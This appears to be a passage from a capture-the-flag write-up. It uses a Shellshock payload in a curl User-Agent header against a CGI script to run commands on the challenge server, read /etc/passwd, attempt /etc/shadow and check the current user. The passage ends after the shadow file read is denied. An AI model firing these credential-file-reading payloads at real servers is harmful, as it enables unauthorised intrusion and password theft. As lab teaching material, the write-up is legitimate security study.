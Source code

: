 We're tasked with recovering the password of the user `m4d0k4`, let's see if there's a user named that in the system.

```
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin cat /etc/passwd 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
haproxy:x:100:101:haproxy:/var/lib/haproxy:/bin/false
m4d0k4:x:1000:1000:Madoka Kaname:/home/m4d0k4:/bin/ash
```

Sure enough, there's the `m4d0k4` user. Let's see if we can access the `shadow` file to retrieve the password hash.

```
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin cat /etc/shadow 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
cat: can't open '/etc/shadow': Permission denied
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin stat /etc/shadow 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
  File: /etc/shadow
  Size: 584             Blocks: 8          IO Block: 4096   regular file
Device: 86h/134d        Inode: 2116428     Links: 1
Access: (0640/-rw-r-----)  Uid: (    0/    root)   Gid: (65534/  nobody)
Access: 2023-08-21 20:15:31.938478000 +0000
Modify: 2023-08-21 20:15:31.893478000 +0000
Change: 2023-08-21 20:15:31.895478000 +0000
$ curl -A '() { :; }; echo ; PATH=/bin:/usr/bin whoami 2>&1' https://stt.uctf.ir/cgi-bin/uptime.sh
nobody
```
